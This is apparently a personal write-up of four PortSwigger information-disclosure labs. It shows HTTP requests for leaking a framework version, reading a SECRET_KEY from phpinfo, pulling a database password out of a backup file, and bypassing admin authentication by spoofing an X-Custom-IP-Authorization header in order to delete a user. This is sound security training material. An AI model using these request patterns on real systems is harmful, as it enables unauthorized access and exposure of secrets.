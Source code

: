 # 1. Lab [Information disclosure in error messages](https://portswigger.net/web-security/information-disclosure/exploiting/lab-infoleak-in-error-messages)

**This lab's verbose error messages reveal that it is using a vulnerable version of a third-party framework. To solve the lab, obtain and submit the _version number_ of this _server_.**

use: GET /product?productId=2 HTTP/2
send: GET /product?productId=char HTTP/2

error message

```
Internal Server Error: java.lang.NumberFormatException: For input string: "njh"
```

response:

```php
HTTP/2 500 Internal Server Error
Content-Length: 1684
```

co to search: _Apache Struts 2 2.3.31_

# 2. Lab: [Information disclosure on debug page](https://portswigger.net/web-security/information-disclosure/exploiting/lab-infoleak-on-debug-page)

**This lab contains a _debug page that discloses sensitive information_ about the application. To solve the lab, obtain and submit the _SECRET_KEY environment variable_.**

go to: => Target im Burp
find: cgi-bin => phpinfo.php
send: => GET /cgi-bin/phpinfo.php HTTP/
search: SECRET_KEY

```html
<tr>
	<td class="e">SECRET_KEY</td>
	<td class="v">os0rnhokc13t5lj3racdehpnpf5gld57</td>
</tr>
```

# 3. Lab: [Source code disclosure via backup files](https://portswigger.net/web-security/information-disclosure/exploiting/lab-infoleak-via-backup-files)

**This lab leaks its source code via _backup files_ _in a hidden directory_. To solve the lab, identify and submit the _database password, which is hard-coded_ in the leaked source code.**

go to: => Target im Burp to root file /
send in repeater: => GET /robots.txt HTTP/2

```php
/robots.txt
```

response:

```php
HTTP/2 200 OK
User-agent: *
Disallow: /backup
```

```php
payload: /backup
```

send:

```php
GET /backup HTTP/2
```

response:

```html
<tr>
	<td>
		<a href="/backup/ProductTemplate.java.bak">ProductTemplate.java.bak</a>
	</td>
	<td></td>
</tr>
```

```url
payload: /backup/ProductTemplate.java.bak
```

send:

```url
GET /backup/ProductTemplate.java.bak HTTP/2
```

response:

```js
  ConnectionBuilder connectionBuilder = ConnectionBuilder.from(
                "org.postgresql.Driver",
                "postgresql",
                "localhost",
                5432,
                "postgres",
                "postgres",
                "ef5skq98q2lwaqzryhjqdgsxawzvytgv"
        ).withAutoCommit();
```

# Lab: 4[Authentication bypass via information disclosure](https://portswigger.net/web-security/information-disclosure/exploiting/lab-infoleak-authentication-bypass)

This lab's *administration interface*has an authentication bypass vulnerability, but it is impractical to exploit without knowledge of a custom HTTP header used by the front-end.

**To solve the lab, obtain the header name then use it to bypass the lab's authentication. Access the _admin interface_ and _delete the user_**

You can log in to your own _My account_ using the following credentials:

```php
"wiener:peter"
```

```url
find url: => POST /login HTTP/2
Cookie: session=21iyulM0gZEdtpfl7E0xtElHLCsCKSwU
```

check: _csrf=_

```php
csrf=PJsS1ub3Tl2rxXduTNQeskP7MgPniQkn&username=wiener&password=peter
```

send:

```url
GET /administrator HTTP/2
```

response:

```txt
  Not Found 404
```

send:

```url
GET /admin HTTP/2
```

response:

```txt
  HTTP/2 401 Unauthorized
	Admin interface only available to local users

```

view in _page_: => Admin interface _only available to **local** users_

hint:

_when I sent an a**administrator** I received => **Not Found 404**, but when I sent an **admin** I received a response that he is not authorized_ => **401 Unauthorized**. It means it exists. only interface _only available to local users_

send:

```url
GET /admin HTTP/2
```

and add to heder _X-Forwarded-For_ with my local _ip=127.0.0.1_ =>

```php
X-Forwarded-For: 127.0.0.1
```

response:

```txt
HTTP/2 401 Unauthorized
Admin interface only available to local users

```

send in root URL:

```url
TRACE / HTTP/2
```

response:

```txt
HTTP/2 200 OK
```

and in header:=> **X-Custom-IP-Authorization**: **188.253.238.117**

```txt
X-Custom-IP-Authorization: 188.253.238.117
```

send:

```url
GET /admin HTTP/2
```

and in _header_ add: => **X-Custom-IP-Authorization with local ip 127.0.0.1**

```
GET /admin HTTP/2
X-Custom-IP-Authorization: 127.0.0.1
```

search: => Delete
find: href=/admin/_delete_?username=_carlos_

```html
<div>
	<span>carlos - </span>
	<a href="/admin/delete?username=carlos">Delete</a>
</div>
```

send:

```php
GET /admin/delete?username=carlos HTTP/2
```

BOOM
